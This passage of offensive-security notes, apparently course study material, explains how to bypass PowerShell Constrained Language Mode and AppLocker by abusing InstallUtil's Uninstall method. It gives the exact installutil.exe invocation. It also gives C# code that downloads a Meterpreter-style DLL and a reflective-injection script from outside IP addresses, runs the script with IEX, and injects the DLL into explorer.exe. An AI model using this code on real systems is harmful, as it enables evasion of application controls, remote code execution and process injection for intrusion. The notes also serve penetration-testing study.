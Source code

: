```csharp
        }
    }
}
```

### PowerShell CLM Bypass

Command-line utility `InstallUtil` allows us to install and uninstall server resources by executing the installer components in a specified assembly.

=> Abuse it to execute arbitrary C# code by putting the code inside either the `install` or `uninstall` methods of the `installer` class.

Only use the `uninstall` method since the `install` method requires **administrative privileges** to execute.

The `System.Configuration.Install` namespace is missing an assembly reference in Visual Studio.

=> Add this by right-clicking on `References` in the `Solution Explorer` and choosing `Add References....` > `Assemblies` menu on the left-hand side and scroll down to `System.Configuration.Install`.

AppLocker DLL rules are enabled to block untrusted DLLs.

=> Leverage `InstallUtil` to bypass AppLocker and revive the reflective DLL injection technique.

```bat
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U C:\Tools\Bypass.exe
```

```csharp
using System;
using System.Management.Automation;
using System.Management.Automation.Runspaces;
using System.Configuration.Install;


namespace Bypass
{
    class Program
    {
        static void Main(string[] args)
        {            
            Console.WriteLine("This is the main method which is a decoy");
        }
    }

    [System.ComponentModel.RunInstaller(true)]
    public class Sample : System.Configuration.Install.Installer
    {
        public override void Uninstall(System.Collections.IDictionary savedState)
        {            
            Runspace rs = RunspaceFactory.CreateRunspace();
            rs.Open();
            PowerShell ps = PowerShell.Create();
            ps.Runspace = rs;

            //String cmd = "$ExecutionContext.SessionState.LanguageMode | Out-File -FilePath C:\\Tools\\test.txt";

            String cmd = "$bytes = (New-Object System.Net.WebClient).DownloadData('http://192.168.119.120/met.dll');(New-Object System.Net.WebClient).DownloadString('http://192.168.45.183/Invoke-ReflectivePEInjection.ps1') | IEX; $procid = (Get-Process -Name explorer).Id; Invoke-ReflectivePEInjection -PEBytes $bytes -ProcId $procid";

            ps.AddScript(cmd);
            ps.Invoke();
```